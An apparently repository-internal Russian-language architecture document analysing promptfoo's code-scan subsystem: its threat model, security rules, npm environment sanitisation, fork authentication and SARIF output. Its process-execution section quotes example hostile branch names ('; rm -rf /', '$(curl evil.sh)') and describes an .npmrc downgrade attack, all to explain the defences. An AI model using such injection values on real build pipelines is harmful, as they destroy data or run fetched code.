




# Сканирование кода — `src/codeScan`

> Разбор через призму **Domain-Driven Design**. Диаграммы — ANSI-псевдографика.
> Дополняет [ARCHITECTURE.md](./ARCHITECTURE.md), [EVALUATOR.md](./EVALUATOR.md),
> [TRACING.md](./TRACING.md), [MODELS.md](./MODELS.md), [COMMANDS.md](./COMMANDS.md),
> [TYPES.md](./TYPES.md), [UTIL.md](./UTIL.md), [SCHEDULER.md](./SCHEDULER.md),
> [PROMPTS.md](./PROMPTS.md), [MATCHERS.md](./MATCHERS.md),
> [ASSERTIONS.md](./ASSERTIONS.md), [PROVIDERS.md](./PROVIDERS.md),
> [REDTEAM.md](./REDTEAM.md), [SERVER.md](./SERVER.md), [APP.md](./APP.md).

---

## 0. Паспорт подсистемы

```
╔══════════════════════════════════════════════════════════════════════════════╗
║  CODE SCAN — проверка изменений кода на риски работы с языковыми моделями    ║
╠══════════════════════════════════════════════════════════════════════════════╣
║  Слой в layers.json     legacy-runtime (ярус 2)                              ║
║  Объём                  23 файла · 3 495 строк                               ║
║  Плюс GitHub Action     code-scan-action/ · 1 290 строк                      ║
╠══════════════════════════════════════════════════════════════════════════════╣
║  git/diffProcessor.ts     511   обработка изменений                          ║
║  scanner/index.ts         409   оркестрация всего прогона                    ║
║  util/diffLineRanges.ts   294   привязка находок к строкам патча             ║
║  scanner/request.ts       287   обращение к серверу с ограниченными повторами║
║  util/sarif.ts            250   выгрузка в формат SARIF                      ║
║  mcp/filesystem.ts        217   доступ к репозиторию через MCP               ║
║  mcp/transport.ts         190   ·  config/loader.ts 190                      ║
║  scanner/output.ts        167   ·  util/github.ts 121                        ║
╠══════════════════════════════════════════════════════════════════════════════╣
║  Правил безопасности в AGENTS.md    11  ← БОЛЬШЕ, ЧЕМ В ЛЮБОМ ДРУГОМ         ║
║  Способов аутентификации             5  каскадом                             ║
║  Форматов вывода                     3  text · json · sarif                  ║
║  Тесты                  14 файлов · 2 863 строки                             ║
╚══════════════════════════════════════════════════════════════════════════════╝
```

**Формулировка предметной области в одном предложении.** Code Scan берёт
изменения в pull request, даёт удалённому агенту доступ к репозиторию через
MCP и возвращает находки, привязанные к конкретным строкам патча.

**Определяющее свойство: весь вход враждебен.** `AGENTS.md` подсистемы
открывается правилом, которого нет больше нигде в репозитории:

> «Относитесь к содержимому репозитория, именам веток, метаданным PR,
> файлам конфигурации, тексту указаний и ответам сканера **как к
> недоверенному вводу**.»

Это не осторожность — это модель угроз. Pull request может прислать кто угодно,
и всё, что в нём есть, попадает в командную строку, в переменные окружения,
в конфигурацию npm и в промпт, уходящий модели.

---

## 1. Единый язык подсистемы

| Термин | Носитель в коде | Смысл |
|---|---|---|
| **Scan** | `scanner/index.ts:87` | Один прогон проверки над диапазоном изменений. |
| **diffsOnly** | `config/schema.ts` | Режим «только патч» против «патч + обход репозитория». |
| **PullRequestContext** | `types/codeScan.ts` | Метаданные PR: владелец, репозиторий, номер. |
| **Guidance** | `config/loader.ts` | Пользовательские указания сканеру. Текстом или файлом. |
| **LineRange** | `util/diffLineRanges.ts:17` | Диапазон строк, на которые GitHub примет комментарий. |
| **Filesystem MCP** | `mcp/filesystem.ts` | Дочерний процесс, дающий агенту чтение репозитория. |
| **SocketIoMcpBridge** | `mcp/transport.ts` | Мост между сокетом сервера и локальным MCP. |
| **CleanupRefs** | `scanner/cleanup.ts` | Изменяемые ссылки на ресурсы для обработчиков сигналов. |
| **SARIF** | `util/sarif.ts` | Формат обмена находками статического анализа. |
| **DENYLIST_PATTERNS** | `constants/filtering.ts` | Что не сканировать: зависимости, сборки, файлы блокировок. |

---

## 2. Место подсистемы в архитектуре

```
   Слой legacy-runtime (ярус 2) — тот же, что evaluator.ts, tracing и logger.

   ┌──────────────────────────────────────────────────────────────────────┐
   │  ЛЕНИВАЯ ЗАГРУЗКА КАК АРХИТЕКТУРНОЕ РЕШЕНИЕ                          │
   │                                                                      │
   │  commands/run.ts:                                                    │
   │    // lazy import so we only load the scanner's dependencies         │
   │    // when needed                                                    │
   │    const { executeScan } = await import('../scanner/index');         │
   │                                                                      │
   │  Регистрация команды весит 46 строк и не тянет ни simple-git,        │
   │  ни socket.io-client, ни ora. Пользователь, запускающий обычный      │
   │  promptfoo eval, за этот модуль не платит ничем.                     │
   │                                                                      │
   │  Тот же приём, что у семейств провайдеров (PROVIDERS.md §5.1)        │
   │  и у агентов атак (REDTEAM.md §6).                                   │
   └──────────────────────────────────────────────────────────────────────┘

   ОТДЕЛЬНЫЙ АРТЕФАКТ: code-scan-action/ — 1 290 строк GitHub Action
   с собственными package.json, tsconfig и workflow. Он вызывает CLI
   и разбирает его JSON-вывод, поэтому AGENTS.md отдельным пунктом
   требует: «Сохраняйте форму вывода JSON для --json; код действия
   его разбирает.»
```

---

## 3. Одиннадцать правил безопасности

`AGENTS.md` этой подсистемы — по сути перечень векторов атаки через pull request
и способов их закрытия. Разбираю по группам.

```
 ┌─────────────────────────────────────────────────────────────────────────────┐
 │ ГРУППА 1 · ИСПОЛНЕНИЕ ПРОЦЕССОВ                                             │
 ├─────────────────────────────────────────────────────────────────────────────┤
 │                                                                             │
 │  «Передавайте аргументы команд МАССИВАМИ в spawn, execFile или локальные    │
 │   помощники git. НЕ СТРОЙТЕ строки shell-команд из значений,                │
 │   контролируемых PR.»                                                       │
 │                                                                             │
 │    Ветка с именем `; rm -rf /` или `$(curl evil.sh)` — обычное дело         │
 │    в атаке на конвейер сборки. Массив аргументов не проходит через          │
 │    оболочку, и такое имя остаётся именем.                                   │
 │                                                                             │
 │    Проверено в коде: spawn('npx', ['-y', '@modelcontextprotocol/…',         │
 │    absoluteRootDir], …) — массив, а не строка.                              │
 ├─────────────────────────────────────────────────────────────────────────────┤
 │ ГРУППА 2 · ЦЕПОЧКА ПОСТАВОК npm                                             │
 ├─────────────────────────────────────────────────────────────────────────────┤
 │                                                                             │
 │  «Сохраняйте санитизацию окружения npm/npx при порождении установщиков      │
 │   инструментов или серверов MCP… покрывайте тестами КОНТРОЛИРУЕМУЮ PR       │
 │   КОНФИГУРАЦИЮ npm.»                                                        │
 │                                                                             │
 │    Реализация — mcp/filesystem.ts:                                          │
 │                                                                             │
 │      function createFilesystemMcpEnv(): NodeJS.ProcessEnv {                 │
 │        const env = { ...process.env };                                      │
 │        delete env.NPM_CONFIG_BEFORE;                                        │
 │        delete env.npm_config_before;                                        │
 │        return env;                                                          │
 │      }                                                                      │
 │                                                                             │
 │    ┌───────────────────────────────────────────────────────────────┐        │
 │    │  ПОЧЕМУ ИМЕННО ЭТА ПЕРЕМЕННАЯ                                  │       │
 │    │                                                                │       │
 │    │  npm_config_before заставляет npm ставить версии пакетов       │       │
 │    │  ПО СОСТОЯНИЮ НА УКАЗАННУЮ ДАТУ. Файл .npmrc в pull request    │       │
 │    │  может задать её — и npx поставит старую, уязвимую версию      │       │
 │    │  сервера MCP, которому мы затем даём доступ к файловой системе.│       │
 │    │                                                                │       │
 │    │  Атака тихая: установка проходит успешно, версия выглядит      │       │
 │    │  легитимной, вредоносного кода в самом PR нет.                 │       │
 │    │                                                                │       │
 │    │  Тест на это существует и проверяет обе формы записи —         │       │
 │    │  test/codeScans/mcp/filesystem.test.ts подставляет обе         │       │
 │    │  и убеждается, что после createFilesystemMcpEnv их нет.        │       │
 │    └───────────────────────────────────────────────────────────────┘        │
 ├─────────────────────────────────────────────────────────────────────────────┤
 │ ГРУППА 3 · ГРАНИЦЫ ДОСТУПА К ФАЙЛАМ                                         │
 ├─────────────────────────────────────────────────────────────────────────────┤
 │                                                                             │
 │  «Держите корни файлового MCP АБСОЛЮТНЫМИ и НОРМАЛИЗОВАННЫМИ. Не            │
 │   расширяйте корень за пределы сканируемого репозитория и ВСЕГДА            │
 │   останавливайте дочерние процессы при успехе, сбое или отмене.»            │
 │                                                                             │
 │    startFilesystemMcpServer(rootDir):                                       │
 │      if (!isAbsolute(rootDir)) throw new FilesystemMcpError(…)              │
 │      const absoluteRootDir = resolve(rootDir);                              │
 │                                                                             │
 │    Проверка ДО нормализации, затем нормализация. Относительный путь         │
 │    отвергается, а не «исправляется» — потому что относительно чего          │
 │    он был бы разрешён, зависит от текущего каталога процесса.               │
 ├─────────────────────────────────────────────────────────────────────────────┤
 │ ГРУППА 4 · РАЗБОР ПУТЕЙ                                                     │
 ├─────────────────────────────────────────────────────────────────────────────┤
 │                                                                             │
 │  «Предпочитайте git diff --raw -z и NUL-безопасный разбор для списков       │
 │   файлов, чтобы пути с пробелами, кавычками или МЕТАСИМВОЛАМИ ОБОЛОЧКИ      │
 │   вели себя корректно.»                                                     │
 │                                                                             │
 │    rawDiffParser.ts разбирает вывод, разделённый нулевыми байтами:          │
 │      :oldmode newmode oldsha newsha status\0path\0                          │
 │      для переименований — \0oldpath\0newpath\0                              │
 │                                                                             │
 │    Нулевой байт не может встретиться в имени файла, поэтому разбор          │
 │    однозначен. Обычный git diff --name-only экранирует такие имена          │
 │    кавычками, и разбор становится задачей об экранировании.                 │
 ├─────────────────────────────────────────────────────────────────────────────┤
 │ ГРУППА 5 · УЧЁТНЫЕ ДАННЫЕ                                                   │
 ├─────────────────────────────────────────────────────────────────────────────┤
 │                                                                             │
 │  «Не логируйте и не сериализуйте сырые ключи API, токены OIDC, токены       │
 │   GitHub, cookie или заголовки bearer. Если контекст аутентификации         │
 │   должен пересечь границу, передавайте МИНИМАЛЬНОЕ ТИПИЗИРОВАННОЕ ПОЛЕ.»    │
 │                                                                             │
 │  «Держите поведение для форков ЯВНЫМ. OIDC может быть недоступен для        │
 │   форков; НЕ откатывайтесь МОЛЧА на более привилегированный путь            │
 │   получения учётных данных.»                                                │
 │                                                                             │
 │    Разбирается в §5.                                                        │
 ├─────────────────────────────────────────────────────────────────────────────┤
 │ ГРУППА 6 · УСТОЙЧИВОСТЬ                                                     │
 ├─────────────────────────────────────────────────────────────────────────────┤
 │                                                                             │
 │  «Ограничивайте повторы для ёмкости сервера и таймаутов MCP. Не             │
 │   добавляйте неограниченные циклы повторов и не скрывайте отмену.»          │
 │  «Распространяйте отмену на клиент сканера и очищайте слушателей            │
 │   сокета и таймеры.»                                                        │
 │                                                                             │
 │    MAX_CAPACITY_ATTEMPTS      7                                             │
 │    MAX_MCP_TIMEOUT_ATTEMPTS   2                                             │
 │    BASE_DELAY_MS           1000                                             │
 │                                                                             │
 │    Два разных предела для двух разных причин: сервер занят — можно          │
 │    подождать подольше; MCP не отвечает — вероятно, сломан, и седьмая        │
 │    попытка ничего не изменит.                                               │
 └─────────────────────────────────────────────────────────────────────────────┘
```

---

## 4. Конвейер прогона

```
 promptfoo code-scans run [repo-path]
        │
        ▼  ЛЕНИВЫЙ import('../scanner/index')
 ┌─────────────────────────────────────────────────────────────────────────────┐
 │  executeScan(repoPath, options)                        scanner/index.ts:87  │
 ├─────────────────────────────────────────────────────────────────────────────┤
 │                                                                             │
 │  1  resolveOutputFormat            text · json · sarif                      │
 │       НЕ text  →  setLogLevel('error')                                      │
 │       ┌───────────────────────────────────────────────────────────────┐     │
 │       │  Комментарий: «Структурированные режимы РЕЗЕРВИРУЮТ stdout     │    │
 │       │  под полезную нагрузку. src/entrypoint.ts уже выставляет       │    │
 │       │  LOG_LEVEL=error ДО импорта модуля логгера (так что логи       │    │
 │       │  инициализации модулей уже подавлены); здесь повторяем         │    │
 │       │  для вызывающих в обход точки входа CLI.»                      │    │
 │       │                                                                │    │
 │       │  Двойная защита нужна, потому что действие GitHub разбирает    │    │
 │       │  stdout как JSON — любая строка лога сломала бы разбор.        │    │
 │       └───────────────────────────────────────────────────────────────┘     │
 │                                                                             │
 │  2  absoluteRepoPath = path.resolve(repoPath)                               │
 │  3  loadConfigOrDefault → mergeConfigWithOptions → resolveGuidance          │
 │       приоритет: аргументы CLI важнее файла конфигурации                    │
 │  4  registerCleanupHandlers(cleanupRefs)   SIGINT · SIGTERM · SIGQUIT       │
 │  5  createSpinner   скрыт для машинных форматов                             │
 │  6  new AbortController                                                     │
 │  7  parseGitHubPr(options.githubPr)  РАНО — нужен для аутентификации форка  │
 ├─────────────────────────────────────────────────────────────────────────────┤
 │  8  git: определить базовую ветку · получить изменения                      │
 │       getBaseBranch: symbolic-ref refs/remotes/origin/HEAD                  │
 │                      → иначе main → иначе master → иначе ошибка             │
 │                        с подсказкой указать --base                          │
 │       diffProcessor: разбор, фильтрация по DENYLIST, аннотация строк        │
 │                                                                             │
 │  9  MCP: startFilesystemMcpServer(absoluteRepoPath)                         │
 │       ожидание маркера 'running on stdio', таймаут 30 секунд                │
 │       SocketIoMcpBridge связывает сокет сервера с локальным процессом       │
 │       ↑ ТОЛЬКО если не diffsOnly                                            │
 │                                                                             │
 │ 10  buildScanRequest → executeScanRequest                                   │
 │       ограниченные повторы, распространение отмены                          │
 │                                                                             │
 │ 11  вывод: text · json · sarif                                              │
 │       при --github-pr: привязка находок к строкам патча и публикация        │
 ├─────────────────────────────────────────────────────────────────────────────┤
 │ finally  остановить MCP · закрыть мост · снять слушателей · вернуть         │
 │          исходный уровень логирования                                       │
 └─────────────────────────────────────────────────────────────────────────────┘
```

Тот же конвейер как Mermaid-диаграмма:



**Своими словами.** Это похоже на то, как груз проходит через контрольный
пункт на границе. Сначала решают, в каком виде выдавать итоговый акт
досмотра — обычным протоколом или машиночитаемой формой, и если протокол
машиночитаемый, посторонние пометки в него подмешивать нельзя (формат
вывода). Потом уточняют точный адрес склада, куда едет груз, читают
инструкцию по досмотру — разовое указание инспектора важнее постоянного
регламента склада (конфигурация и приоритет). Заранее готовят кнопку
экстренной остановки на случай, если досмотр придётся прервать
(обработчики сигналов), включают индикатор занятости (спиннер), заводят
секундомер отмены и заранее выясняют, из какого конкретно pull request
приехал груз — это важно знать сразу, а не потом. Затем смотрят, что
именно изменилось в грузе относительно прошлой партии, и отсеивают то,
что заведомо не досматривается. Если требуется не просто патч, а обход
всего склада — впускают на склад ограниченного помощника через отдельный
служебный вход, с которым держат связь по рации (файловый MCP-сервер
и мост). Формируют запрос на экспертизу и отправляют его с ограниченным
числом попыток. Результат публикуют в одном из трёх видов. А что бы ни
случилось — груз прошёл досмотр успешно, провалился или досмотр вообще
прервали, — на выходе ВСЕГДА закрывают служебный вход, отключают рацию
и убирают временные пропуска: это происходит один раз и одинаково для
всех исходов.

### 4.1. Что не сканируется

```
   DENYLIST_PATTERNS — constants/filtering.ts

     зависимости    **/node_modules/**  **/.venv/**  **/__pycache__/**
     сборки         **/dist/**  **/build/**  **/.next/**
     блокировки     *.lock · package-lock.json · yarn.lock ·
                    pnpm-lock.yaml · Cargo.lock · poetry.lock ·
                    composer.lock · Pipfile.lock
     бинарное       *.min.js · *.map · *.bin · *.exe · *.dll ·
                    *.so · *.dylib

   Комментарий в шапке файла объясняет, почему константы вынесены отдельно:
   «Извлечено, чтобы не тянуть ESM-зависимости (вроде execa) в тесты сервера.»
   То есть список нужен и серверу тоже, а тащить за ним весь сканер незачем.
```

---

## 5. Аутентификация: пять ступеней и явное поведение для форков

```
   resolveAuthCredentials(apiKey?, forkPR?)          util/auth.ts

 ┌─────────────────────────────────────────────────────────────────────────────┐
 │   1  apiKey из аргумента CLI или файла конфигурации   ┐                     │
 │   2  PROMPTFOO_API_KEY                                ├ resolveBaseAuth     │
 │   3  ключ из promptfoo auth (cloudConfig)             ┘                     │
 │   ──────────────────────────────────────────────────────────────────        │
 │   4  GITHUB_OIDC_TOKEN                    → { oidcToken }                   │
 │   5  контекст форка                       → { forkPR }                      │
 │   ──────────────────────────────────────────────────────────────────        │
 │      ничего не найдено                    → {}                              │
 ├─────────────────────────────────────────────────────────────────────────────┤
 │  ПОЧЕМУ ПЯТАЯ СТУПЕНЬ СУЩЕСТВУЕТ                                            │
 │                                                                             │
 │    GitHub НЕ выдаёт OIDC-токен для pull request из форка — иначе            │
 │    любой желающий получал бы удостоверение от имени репозитория,            │
 │    открыв PR.                                                               │
 │                                                                             │
 │    Правило AGENTS.md: «НЕ откатывайтесь МОЛЧА на более                      │
 │    привилегированный путь получения учётных данных.»                        │
 │                                                                             │
 │    Реализовано буквально: вместо токена наверх уходит { forkPR } —          │
 │    минимальная типизированная тройка владелец/репозиторий/номер.            │
 │    Сервер сам решает, что позволить такому обращению. Клиент                │
 │    не пытается компенсировать нехватку прав.                                │
 ├─────────────────────────────────────────────────────────────────────────────┤
 │  Тип SocketAuthCredentials — размеченное объединение из трёх форм:          │
 │    { apiKey } · { oidcToken } · { forkPR }                                  │
 │  Именно это и есть «минимальное типизированное поле» из правила:            │
 │  границу пересекает ровно один вид удостоверения, а не общий объект         │
 │  со всеми возможными полями.                                                │
 └─────────────────────────────────────────────────────────────────────────────┘
```

Тот же каскад как Mermaid-диаграмма:



**Своими словами.** Это похоже на систему пропусков в здании с несколькими
способами подтвердить личность, перечисленными по убыванию надёжности.
Сначала охрана смотрит, не предъявил ли человек именной пропуск, выданный
лично под эту проверку, — не важно, вручную ли его дали при входе, или
он был заранее прописан в системе, или его выдало корпоративное облако
(первые три ступени — это, по сути, один и тот же вид пропуска, полученный
тремя разными путями). Если такого пропуска нет, охрана смотрит на
служебный бейдж, который автоматически выдаёт сама система задания
(OIDC-токен), — но с оговоркой: система НИКОГДА не выдаёт такой бейдж
человеку, который пришёл не из основного офиса, а из гостевого крыла без
предварительной проверки (пул-реквест из форка), потому что иначе гостевым
крылом мог бы воспользоваться кто угодно. И вот здесь — самое важное
правило во всей схеме: если у гостя нет служебного бейджа, охрана
НЕ достаёт из-под стола запасной пропуск более высокого уровня, чтобы
просто пропустить человека. Вместо этого охрана честно передаёт дальше
только то, что видит: «это гость, пришёл вот из такого гостевого крыла,
вот его номер» — и решение, пускать ли такого гостя куда-либо, принимает
уже следующий пост охраны, а не проходная.

---

## 6. Привязка находок к строкам патча

Отдельная задача с собственным модулем на 294 строки, и её существование
объясняется ограничением GitHub.

```
 ┌─────────────────────────────────────────────────────────────────────────────┐
 │  ПРОБЛЕМА                                                                   │
 │                                                                             │
 │    Комментарии к обзору PR можно поставить ТОЛЬКО на строки, которые        │
 │    попали в патч, — изменённые плюс контекстные. Модель же анализирует      │
 │    файл целиком (в режиме не-diffsOnly) и может указать на строку,          │
 │    которой в патче нет.                                                     │
 │                                                                             │
 │    Правило AGENTS.md: «Для комментариев обзора GitHub СОПОСТАВЛЯЙТЕ         │
 │    находки с изменёнными строками патча ПЕРЕД публикацией. Находки          │
 │    сканера вне патча не должны становиться недействительными                │
 │    встроенными комментариями.»                                              │
 ├─────────────────────────────────────────────────────────────────────────────┤
 │  РЕШЕНИЕ — ДВА МОДУЛЯ                                                       │
 │                                                                             │
 │    git/diffAnnotator.ts (119 строк)                                         │
 │      annotateDiffWithLineRanges(patch) → { annotatedDiff, lineRanges }      │
 │                                                                             │
 │      Проставляет АБСОЛЮТНЫЕ НОМЕРА СТРОК прямо в текст патча.               │
 │      Комментарий: «Это устраняет необходимость для языковых моделей         │
 │      вручную вычислять номера строк из заголовков ханков.»                  │
 │                                                                             │
 │      То есть модели не предлагают решать арифметическую задачу              │
 │      «@@ -10,7 +10,8 @@ плюс смещение внутри ханка» — ей дают               │
 │      готовый номер. Меньше поводов ошибиться там, где ошибка тихая.         │
 │                                                                             │
 │    util/diffLineRanges.ts (294 строки)                                      │
 │      FileLineRanges = Map<путь, LineRange[]>                                │
 │      clampCommentLines(...) → { startLine, line }                           │
 │                                                                             │
 │      Находка вне допустимого диапазона ПРИЖИМАЕТСЯ к ближайшей              │
 │      допустимой строке, а не отбрасывается: полезное наблюдение             │
 │      сохраняется, пусть и с небольшим смещением привязки.                   │
 └─────────────────────────────────────────────────────────────────────────────┘
```

То же решение как Mermaid-диаграмма:



**Своими словами.** Представь билетёра в кинозале, где комментарии можно
клеить только на кресла из купленного сектора, а не куда угодно в зале.
Сначала на самой схеме зала билетёр заранее подписывает абсолютный номер
каждого кресла прямо на плане, чтобы зритель не считал ряды и не гадал,
где именно кресло номер такое-то (проставление абсолютных номеров строк).
Зритель — в данном случае модель — смотрит на такую подписанную схему
и указывает пальцем на конкретное кресло, где ему что-то не понравилось.
Но иногда зритель тычет в кресло, которое формально не входит в купленный
сектор — билетёр не говорит «замечание аннулировано» и не выбрасывает
жалобу в мусор. Вместо этого он мысленно сдвигает палец зрителя на
ближайшее кресло, которое реально входит в купленный сектор, и клеит
стикер туда. Само наблюдение — что где-то что-то не так — не теряется,
просто стикер оказывается на соседнем месте, а не в точности там, куда
указали.

---

## 7. Выгрузка в SARIF

```
   util/sarif.ts — 250 строк, формат обмена находками статического анализа

     SARIF_VERSION       '2.1.0'
     GENERIC_RULE_ID     'promptfoo/code-scan-finding'
     defaultConfiguration { level: 'warning' }

 ┌─────────────────────────────────────────────────────────────────────────────┐
 │  ЧЕСТНОЕ ОБЪЯВЛЕНИЕ ПРИРОДЫ НАХОДОК                                         │
 │                                                                             │
 │    Комментарий к тегу точности:                                             │
 │                                                                             │
 │      «'medium' — эвристический тег спецификации SARIF                       │
 │       (very-high | high | medium | low | very-low). Он сообщает             │
 │       GitHub Code Scanning, что эти находки ПОЛУЧЕНЫ ОТ МОДЕЛИ,             │
 │       а не являются детерминированными совпадениями по AST, что             │
 │       влияет на ранжирование и поведение дедупликации.»                     │
 │                                                                             │
 │    Инструмент сам понижает вес своих находок относительно                   │
 │    классических статических анализаторов — потому что они и правда          │
 │    другой природы. Это редкость: обычно интеграции заявляют                 │
 │    максимальную точность.                                                   │
 ├─────────────────────────────────────────────────────────────────────────────┤
 │  ОТПЕЧАТОК НАХОДКИ — FINGERPRINT_FINDING_MAX_CHARS = 160                    │
 │                                                                             │
 │    Комментарий: «Ограничиваем вход отпечатка, чтобы незначительная          │
 │    ПЕРЕФОРМУЛИРОВКА длинных находок всё ещё хешировалась в тот же           │
 │    идентификатор, но при этом длины хватало, чтобы различать                │
 │    несвязанные находки по одному файлу и уровню серьёзности.»               │
 │                                                                             │
 │    Модель на повторном прогоне сформулирует ту же находку немного           │
 │    иначе. Без обрезки GitHub посчитал бы её новой и показал дважды.         │
 │    Порог 160 символов — компромисс между устойчивостью и различимостью.     │
 └─────────────────────────────────────────────────────────────────────────────┘
```

---

## 8. Завершение и отмена

```
   scanner/cleanup.ts — 55 строк

     interface CleanupRefs {
       repoPath · socket · mcpBridge · mcpProcess · spinner · abortController
     }

 ┌─────────────────────────────────────────────────────────────────────────────┐
 │  ИЗМЕНЯЕМЫЕ ССЫЛКИ ВМЕСТО ЗАМЫКАНИЯ НА ЗНАЧЕНИЯХ                            │
 │                                                                             │
 │    Комментарий: «Позволяет обработчикам сигналов обращаться                 │
 │    к ОБНОВЛЁННЫМ ресурсам MCP.»                                             │
 │                                                                             │
 │    Обработчики сигналов регистрируются в начале прогона, когда              │
 │    ни сокета, ни дочернего процесса ещё нет. Объект-контейнер               │
 │    заполняется по мере их появления, и обработчик всегда видит              │
 │    актуальное состояние.                                                    │
 ├─────────────────────────────────────────────────────────────────────────────┤
 │  ОТМЕНА ЧЕРЕЗ ОДНУ ТОЧКУ                                                    │
 │                                                                             │
 │    const cleanup = (signal) => {                                            │
 │      refs.abortController?.abort();                                         │
 │      // «Прерываем Promise прогона — это запустит блоки catch/finally,      │
 │      //  которые и выполняют всю реальную очистку ресурсов.»                │
 │    }                                                                        │
 │                                                                             │
 │    Обработчик сигнала не освобождает ресурсы сам. Он только даёт            │
 │    сигнал отмены, а освобождение остаётся там же, где происходит            │
 │    при обычном завершении, — в finally. Один путь очистки вместо двух.      │
 │                                                                             │
 │    SIGINT · SIGTERM · SIGQUIT                                               │
 └─────────────────────────────────────────────────────────────────────────────┘
```

Тот же обмен как Mermaid sequence-диаграмма:



**Своими словами.** Представь пожарную сигнализацию в офисе. Когда кто-то
дёргает рычаг тревоги (сигнал SIGINT, SIGTERM или SIGQUIT), сам рычаг
ничего не тушит и ничего не выключает — он только подаёт один общий
сигнал «действуем по плану эвакуации». А настоящее выключение техники,
закрытие дверей на служебные помещения и отчёты о том, кто где был, —
это ОДИН И ТОТ ЖЕ план действий, который срабатывает что при тревоге,
что при обычном плановом закрытии офиса в конце дня (блок finally
отрабатывает и при отмене, и при штатном завершении). То есть рычаг
тревоги не дублирует план эвакуации своей отдельной, второй процедурой
закрытия здания — он просто досрочно его запускает. Это удобно ровно
потому, что не нужно поддерживать два разных сценария закрытия офиса,
которые могут разъехаться и забыть выключить что-то по отдельности, —
сценарий один, просто у него два разных повода начаться.

---

## 9. Диагноз

```
╔═══════════════════════════════════════════════════════════════════════════╗
║  СИЛЬНЫЕ СТОРОНЫ                                                          ║
╠═══════════════════════════════════════════════════════════════════════════╣
║  ✔ Модель угроз названа первым правилом: весь вход из pull request        ║
║    недоверенный. Одиннадцать правил AGENTS.md — перечень векторов.        ║
║                                                                           ║
║  ✔ Санитизация npm_config_before закрывает тихую атаку на цепочку         ║
║    поставок и покрыта тестом на обе формы записи переменной.              ║
║                                                                           ║
║  ✔ Аргументы процессов передаются массивами; корень MCP обязан быть       ║
║    абсолютным, и относительный путь отвергается, а не исправляется.       ║
║                                                                           ║
║  ✔ NUL-безопасный разбор списка файлов вместо разбора экранированных      ║
║    кавычками имён.                                                        ║
║                                                                           ║
║  ✔ Поведение для форков явное: вместо отсутствующего OIDC наверх уходит   ║
║    минимальная типизированная тройка, а не более привилегированный        ║
║    путь.                                                                  ║
║                                                                           ║
║  ✔ Два разных предела повторов для двух разных причин отказа.             ║
║                                                                           ║
║  ✔ Абсолютные номера строк проставляются в патч, чтобы модель не          ║
║    считала их сама из заголовков ханков.                                  ║
║                                                                           ║
║  ✔ Находки прижимаются к допустимым строкам, а не отбрасываются.          ║
║                                                                           ║
║  ✔ SARIF честно объявляет находки эвристическими, понижая их вес          ║
║    относительно детерминированных анализаторов.                           ║
║                                                                           ║
║  ✔ Отпечаток находки обрезается до 160 символов — переформулировка        ║
║    не порождает дубликат в GitHub.                                        ║
║                                                                           ║
║  ✔ Один путь очистки: сигнал только отменяет, освобождает finally.        ║
║                                                                           ║
║  ✔ Ленивая загрузка: обычный прогон eval не платит за этот модуль.        ║
╠═══════════════════════════════════════════════════════════════════════════╣
║  СЛАБЫЕ МЕСТА                                                             ║
╠═══════════════════════════════════════════════════════════════════════════╣
║  ✘ Санитизация окружения закрывает ОДНУ переменную npm. Существуют        ║
